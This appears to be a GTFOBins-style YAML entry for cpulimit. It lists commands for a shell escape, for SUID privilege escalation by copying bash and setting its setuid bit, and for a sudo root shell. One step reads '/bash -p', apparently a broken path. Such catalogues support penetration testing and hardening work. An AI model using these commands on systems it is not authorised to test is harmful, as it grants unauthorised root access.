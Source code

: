 ```yaml
---
functions:
  shell:
    - code: cpulimit -l 100 -f /bin/sh
  suid:
  - code: cpulimit -l 100 -f cp /bin/bash .
  - code: cpulimit -l 100 -f chmod +s bash
  - code: /bash -p
  sudo:
    - code: sudo cpulimit -l 100 -f /bin/sh
---
```

